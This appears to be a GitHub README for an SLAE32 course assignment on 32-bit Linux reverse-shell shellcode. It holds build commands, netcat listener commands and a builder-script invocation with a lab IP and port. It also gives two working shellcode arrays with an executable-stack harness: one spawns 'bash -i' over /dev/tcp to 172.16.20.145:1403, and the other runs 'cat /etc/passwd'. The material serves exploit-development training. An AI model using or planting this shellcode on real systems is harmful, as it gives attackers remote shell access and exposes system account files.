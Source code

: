 # SLAE32 Assignment 2 : Reverse Shell 

This repository is part of the SLAE32 Certification process.

## `execve.c`

local@user:$ `gcc execve.c -o execve`
local@user:# `nc -lvp 443`
local@user:$ `./execve`

## `execve-reverse-shell.masm`

local@user:$ `nasm -f elf32 -o execve-reverse-shell.o execve-reverse-shell.masm`
local@user:$ `ld -o execve-reverse-shell execve-reverse-shell.o`
local@user:# `nc -lvp 443`
local@user:$ `./execve-reverse-shell`

## `execve-reverse-shell-builder.py`

local@user:$ `chmod +x gen_revshell.py && ./gen_revshell.py 172.16.20.145 1403`

`````
#include<stdio.h>
#include<string.h>

// Shellcode size = 100
unsigned char code[] = \
        "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x69\x6e\x2f\x2f\x68\x2f\x2f"
        "\x2f\x62\x89\xe3\x66\xb8\x2d\x63\x50\x31\xc0\x89\xe2\x50\x68\x30"
        "\x3e\x26\x31\x68\x34\x30\x33\x20\x68\x39\x33\x2f\x31\x68\x37\x33"
        "\x34\x39\x68\x32\x38\x38\x36\x68\x74\x63\x70\x2f\x68\x64\x65\x76"
        "\x2f\x68\x69\x3e\x26\x2f\x68\x73\x68\x20\x2d\x68\x2a\x2f\x62\x61"
        "\x68\x2f\x2f\x2f\x2f\x89\xe6\x50\x56\x52\x53\x89\xe1\x50\x89\xe2"
        "\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
`````

user@local:$ `gcc shellcode.c -o shellcode -z execstack`
user@local:# `nc -lvp 443`
user@local:$ `./shellcode`

## `execve-builder.py`

user@local:$ `./execve-builder.py "/bin/cat /etc/passwd"`

``````
// Shellcode size = 70
unsigned char code[] = \
    "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x69\x6e\x2f\x2f\x68\x2f\x2f"
    "\x2f\x62\x89\xe3\x66\xb8\x2d\x63\x50\x31\xc0\x89\xe2\x50\x68\x73"
    "\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63"
    "\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x52\x53\x89\xe1\x50"
    "\x89\xe2\xb0\x0b\xcd\x80";
``````

